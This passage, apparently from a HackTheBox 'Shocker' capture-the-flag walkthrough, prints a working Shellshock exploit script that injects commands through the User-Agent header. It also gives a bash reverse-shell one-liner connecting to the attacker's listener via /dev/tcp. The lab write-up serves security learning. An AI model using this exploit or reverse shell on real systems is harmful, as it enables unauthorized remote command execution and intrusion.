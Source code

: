 ```bash
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169

```

It is not running our command. We can insert the payload manually with Burp Suite or similar tools, but we can use [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Shellshock%20CVE-2014-6271.py) script, just for the sake of time (it is literally modify a header):

```python
from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import input
import sys, urllib.request, urllib.error, urllib.parse

if len(sys.argv) != 2:
        print("Usage: shell_shocker <URL>")
        sys.exit(0)

URL=sys.argv[1]
print("[+] Attempting Shell_Shock - Make sure to type full path")

while True:
        command=input("~$ ")
        opener=urllib.request.build_opener()
        opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ; '+command)]
        try:
                response=opener.open(URL)
                for line in response.readlines():
                        print(line.strip())
        except Exception as e: print(e)
```

We use the following payload to call our listener for a revshell:

```bash
/bin/bash -i &> /dev/tcp/10.10.14.2/5454 0>&1
```

And we get the user flag:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/shocker/1_0_user.png" width="95%"/>
</p>
